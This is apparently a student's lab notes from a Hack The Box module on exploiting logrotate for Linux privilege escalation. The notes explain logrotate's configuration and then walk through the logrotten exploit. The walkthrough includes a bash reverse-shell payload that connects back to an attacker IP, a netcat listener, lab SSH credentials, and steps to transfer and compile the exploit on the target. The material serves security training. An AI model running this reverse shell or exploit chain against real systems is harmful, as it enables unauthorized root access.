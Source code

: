 - Archives and or deletes old logs
- Pulls logs from /var/log
- Started periodically via cron
- Controlled via the configuration file /etc/logrotate.conf
- Logs can be renamed or created for each new day, older ones are automatically renamed

```
datboyblu3@htb[/htb]$ man logrotate
datboyblu3@htb[/htb]$ # or
datboyblu3@htb[/htb]$ logrotate --help

Usage: logrotate [OPTION...] <configfile>
  -d, --debug               Don't do anything, just test and print debug messages
  -f, --force               Force file rotation
  -m, --mail=command        Command to send mail (instead of '/usr/bin/mail')
  -s, --state=statefile     Path of state file
      --skip-state-lock     Do not lock the state file
  -v, --verbose             Display messages during rotation
  -l, --log=logfile         Log file or 'syslog' to log to syslog
      --version             Display version information

Help options:
  -?, --help                Show this help message
      --usage               Display brief usage message
```

### Logrotate Config File

```
datboyblu3@htb[/htb]$ cat /etc/logrotate.conf


# see "man logrotate" for details

# global options do not affect preceding include directives

# rotate log files weekly
weekly

# use the adm group by default, since this is the owning group
# of /var/log/syslog.
su root adm

# keep 4 weeks worth of backlogs
rotate 4

# create new (empty) log files after rotating old ones
create

# use date as a suffix of the rotated file
#dateext

# uncomment this if you want your log files compressed
#compress

# packages drop log rotation information into this directory
include /etc/logrotate.d

# system-specific logs may also be configured here.
```

**Logrotate Status File**
This file can be used to set a new rotation either in the status file itself or using the `-f/--force` option
```
datboyblu3@htb[/htb]$ sudo cat /var/lib/logrotate.status

/var/log/samba/log.smbd" 2022-8-3
/var/log/mysql/mysql.log" 2022-8-3
```

**Application Config Files in /etc/logrotate.d**
```
datboyblu3@htb[/htb]$ ls /etc/logrotate.d/

alternatives  apport  apt  bootlog  btmp  dpkg  mon  rsyslog  ubuntu-advantage-tools  ufw  unattended-upgrades  wtmp
```

### Requirements to Exploit
- Must be writable
- Must run as privileged user or root
- Vulnerable Versions:
	- 3.8.6
	- 3.11.0
	- 3.15.0
	- 3.18.0

### Exploit Logrotate

The example is using a prefabricated exploit called [logrotten](https://github.com/whotwagner/logrotten)

**Create Payload**
```
logger@nix02:~$ echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```

**Determine which option logrotate uses in logrotate.conf**
```
logger@nix02:~$ grep "create\|compress" /etc/logrotate.conf | grep -v "#"

create
```

This logrotate option will create a new, empty log after rotating old ones

**Start your listener**
```
datboyblu3@htb[/htb]$ nc -nlvp 9001

Listening on 0.0.0.0 9001
```

**Execute the payload with logrotten**
```
logger@nix02:~$ ./logrotten -p ./payload /tmp/tmp.log
```

## Questions

### SSH
```python
ssh htb-student@10.129.204.41
```

### Passwd
```python
HTB_@cademy_stdnt!
```

What version of logrotate is on the box and is it vulnerable?
```python
htb-student@ubuntu:~$ logrotate --version
logrotate 3.11.0
htb-student@ubuntu:~$
```
Yes it is!

### Transferring Logrotten to the target

Compress the logrotten directory like so:
```python
tar -czvf logrotten.tar.gz logrotten/
```

Now transfer the file:
```python
scp logrotten.tar.gz htb-student@10.129.204.41:/home/htb-student
htb-student@10.129.204.41's password: 
logrotten.tar.gz 
```

Compile the file
```python
gcc logrotten.c -o logrotten
```




